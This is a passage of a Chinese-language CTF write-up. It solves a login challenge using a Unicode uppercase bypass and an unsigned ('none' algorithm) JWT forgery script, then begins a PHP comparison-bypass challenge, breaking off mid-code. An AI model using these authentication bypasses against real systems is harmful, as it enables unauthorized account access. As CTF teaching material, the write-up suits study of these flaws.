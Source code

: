```js
return erb :login, :locals => {:info => info}
elsif password == "whatever" and user.upcase == "MICHAEL"
set_Cookies(user)
else
info = "Invalid Username/Password"
return erb :login, :locals => {:info => info}
end
redirect '/'
end
```

ruby语言，代码逻辑就是用户名不能是 michael 但是检查的时候，转为大写后需要等于 MICHAEL 可以利用js的特性绕过

```
toUpperCase(): 字符"ı"、"ſ" 经过toUpperCase处理后结果为 "I"、"S"
```

paylaod

```
username=mıchael&password=whatever
```

得到半段flag

![](https://img-blog.csdnimg.cn/img_convert/22698f18a734a6d6ac23f4051dbbd964.png)

看下cookie为jwt

![image-20220306192932011](https://img-blog.csdnimg.cn/img_convert/58ffbb491bb36fb60c9cff167374a533.png)

尝试伪造

```python
import jwt

print(jwt.encode({"user":"admin"}, key="", algorithm="none"))
```

FLAG：p_ctf{un1c0de_4nd_j3t_m4kes_fu7}

# PHP train

```php
<?php
    show_source("index.php");
    include 'constants.php';
    error_reporting(0);
    if(isset($_GET["param1"])) {
        if(!strcmp($_GET["param1"], CONSTANT1)) {
            echo FLAG1;
        }
    }

    if(isset($_GET["param2"]) && isset($_GET["param3"])) {
        $str2 = $_GET["param2"];
        $str3 = $_GET["param3"];
        if(($str2 !== $str3) && (sha1($str2) === sha1($str3))) {
            echo FLAG2;
        }
    }

    if(isset($_GET["param4"])) {
        $str4 = $_GET["param4"];
        $str4=trim($str4);
        if($str4 == '1.2e3' && $str4 !== '1.2e3') {
            echo FLAG3;
```